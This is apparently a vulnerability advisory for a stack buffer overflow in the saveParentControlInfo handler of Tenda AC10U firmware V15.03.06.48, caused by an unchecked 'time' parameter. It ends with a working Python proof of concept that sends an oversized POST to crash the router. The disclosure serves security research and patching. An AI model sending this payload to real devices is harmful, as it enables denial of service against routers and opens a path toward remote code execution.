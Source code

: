 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware V15.03.06.48

## Vulnerability details

The function `saveParentControlInfo` contains a stack-based buffer overflow vulnerability.

![image-20240314123422079](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314123422079.png)

it reads in a user-provided parameter `time`, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer.

![image-20240314124203078](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314124203078.png)

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

![image-20240314124144187](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314124144187.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/saveParentControlInfo"
payload = b"a"*1000


data = {"time": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240313183417783](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313183417783.png)
